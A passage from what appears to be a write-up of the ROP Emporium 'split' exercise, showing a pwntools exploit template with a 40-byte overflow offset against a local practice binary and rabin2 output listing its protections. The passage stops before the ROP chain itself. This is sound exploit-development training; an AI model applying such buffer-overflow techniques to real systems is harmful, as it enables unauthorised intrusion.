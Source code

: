 So the basic flow is similar to ret2win, no surprise there as this exercise is more looking at the assembly, but again the user is required to input data after the _"\> "_. Much like 0-Ret2Win the offset to our junk in order to control RIP is 40 bytes, and i am intentionally skipping the details in this step to focus more on the ROP Chain.

So again create the exploit template using pwntools

```
root@Valkyrie:~/Documents/courses/ropemporium/1-split# \
> pwn template --host 127.0.0.1 --port 31337 split --quiet > exploit.py
```

And again keeping with the standard, adding the 40-byte junk and payload definition

```
[...snip...]
# -- Exploit goes here --
junk = 'A'*40

payload = ""
payload += junk

io = start()
io.recvuntil('> ')
io.sendline(payload)
io.interactive()
```

So lets start reversing the binary and look for the gadgets that we have to use.

## Radare2 Reversing

Analyzing the binary first with rabin2, to have a look on its protections we can see that the `nx: true` also that `stripped: false` . So again a ROP Chain is the key to success!

```
root@Valkyrie:~/Documents/courses/ropemporium/1-split# rabin2 -I split
arch x86
baddr 0x400000
binsz 7137
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath NONE
sanitiz false
static false
stripped false
subsys linux
```